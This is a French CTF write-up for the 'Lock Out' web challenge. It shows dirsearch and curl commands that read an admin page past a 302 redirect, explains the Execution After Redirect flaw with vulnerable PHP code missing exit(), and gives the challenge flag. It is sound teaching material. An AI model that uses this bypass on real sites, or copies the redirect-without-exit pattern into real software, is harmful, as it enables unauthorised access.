



## 📌 Informations

- **Challenge :** Lock Out
    
- **Catégorie :** Web
    
- **Points :** 100
    
- **Auteur :** F4R3S
    
- **Plateforme :** Kali Team CTF
    

## 📜 Description du Challenge

> _I seem to have locked myself out of my admin panel!_
> 
> _Can you find a way back in for me?_

## 🔍 Reconnaissance

### 1. Découverte de répertoires

Une recherche de répertoires cachés avec `dirsearch` permet de repérer la présence de la page d'administration :

```bash
dirsearch -u http://<TARGET_IP>:8001/ -w /usr/share/wordlists/dirb/common.txt
```

**Résultat :**

```
[06:33:53] 302 - 1KB - /admin.php -> login.php
```



### 2. Inspection brute de `admin.php`

Une tentative d'accès classique redirige vers `login.php`. Cependant, en effectuant une requête HTTP brute avec `curl -i` (sans suivre la redirection), le serveur retourne un code d'état `302 Found` tout en renvoyant quand même le code HTML de la page d'administration :

```bash
curl -i http://<TARGET_IP>:8001/admin.php
```

Dans le corps de la réponse HTML, un formulaire masqué permet de déclencher l'affichage du flag via le paramètre GET `PrintFlag` :

```html
<form action="admin.php" method="get" class="action-form">
    <input type="submit" name="PrintFlag" value="Execute: Get_Flag.sh">
</form>
```



## Exploitation

Pour interroger directement le point d'entrée sans passer par le formulaire de connexion, il suffit d'envoyer la requête `GET` avec le paramètre `PrintFlag=1` directement sur `/admin.php` :

```bash
curl -i "http://<TARGET_IP>:8001/admin.php?PrintFlag=1"
```

### Réponse du serveur :

```http
HTTP/1.1 302 Found
Location: login.php
...

<div class='flag-container'>
    <span>[SYSTEM_NOTIFICATION]: FLAG_RECOVERED</span>
    <p class='flag'>KaliTeam{0d5fee0d-b70d-43e2-9269-134dc9dfbd63}</p>
</div>
```



## Analyse de la Vulnérabilité : Execution After Redirect (EAR)

Le serveur souffre d'une vulnérabilité **Execution After Redirect ( EAR)**. En PHP, lorsque le développeur vérifie les droits d'accès, il effectue la redirection sans stopper l'exécution du script :

```php
// Code vulnérable côté serveur
if (!isset($_SESSION['admin'])) {
    header("Location: login.php");
    // L'absence de exit(); permet au reste du script de s'exécuter
}

if (isset($_GET['PrintFlag'])) {
    echo $flag; // Le flag est inséré dans le HTML transmis au client
}
```

## 🚩 Flag

```text
KaliTeam{0d5fee0d-b70d-43e2-9269-134dc9dfbd63}
```
